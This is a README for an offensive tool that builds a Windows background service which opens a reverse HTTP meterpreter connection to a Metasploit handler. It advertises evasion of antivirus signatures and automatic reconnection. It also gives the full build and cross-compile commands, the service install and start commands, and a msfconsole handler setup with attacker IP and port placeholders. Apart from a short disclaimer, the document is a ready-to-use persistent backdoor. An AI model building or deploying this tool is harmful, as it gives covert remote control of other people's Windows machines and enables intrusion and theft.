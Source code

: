 ## Powershell Reverse Http

> Note: Use this program at your own risk. I do not encourage in any way the use of this software illegally or to attack targets without their previous authorization

A simple windows service running on background that connects with a meterpreter session via http, with no virus signature, keeping the connection open and renewed automagically

### Usage
First, you need [go](https://golang.org/dl/) for build the binary (duh!) and [metasploit-framework](https://github.com/rapid7/metasploit-framework) for accepts the reverse connection

Change the LHOST and LPORT on `exploit.go` (metasploit handler ip and port)
```
git clone https://github.com/mauri870/powershell-reverse-http.git
cd powershell-reverse-http
go get golang.org/x/sys/windows
go build -o powershell-reverse.exe
```

To build on a linux machine, you need set the GOOS env to "windows"
```
env GOOS=windows go build -o powershell-reverse.exe
```

## Usage
```
powershell-reverse.exe
no command specified

usage: powershell-reverse.exe <command>
       where <command> is one of
       install, remove, debug, start, stop, restart, pause or continue.
```

After install and start, the service is always up and trying to connect on host and port specified on `exploit.go`

On the attacker machine:

```
./msfconsole --quiet
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf exploit(handler) > set LHOST YOUR_IP_ADDRESS_HERE
LHOST => YOUR_IP_ADDRESS_HERE
msf exploit(handler) > set LPORT YOUR_PORT_TO_AWAIT_CONNECTION_HERE
LPORT => YOUR_PORT_TO_AWAIT_CONNECTION_HERE
msf exploit(handler) > exploit

[*] Started HTTP reverse handler on http://LHOST:LPORT
[*] Starting the payload handler... 
```
